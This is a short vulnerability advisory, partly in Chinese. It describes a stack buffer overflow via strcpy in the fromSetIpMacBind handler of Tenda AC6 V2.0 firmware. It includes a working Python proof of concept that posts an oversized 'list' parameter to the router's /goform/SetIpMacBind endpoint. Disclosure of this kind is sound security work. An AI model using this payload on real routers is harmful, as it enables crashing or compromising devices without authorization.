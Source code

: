 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "fromSetIpMacBind"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

在函数fromSetIpMacBind中，通过用户构造post请求传入list参数，未经参数检查。在1<=bindnum<=32的时候list传入的参数会通过strcpy(mib_buf, list);传入栈中造成溢出。其中mib_value[128]。

![image-20250618232337799](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618232337799.png)

poc

```python
import requests
def send_payload(url, payload):
    params={
            'bindnum':b'10',
            'list':payload,}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500
url="http://192.168.1.1/goform/SetIpMacBind"
send_payload(url, payload)   
```

![image-20250618232217205](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618232217205.png)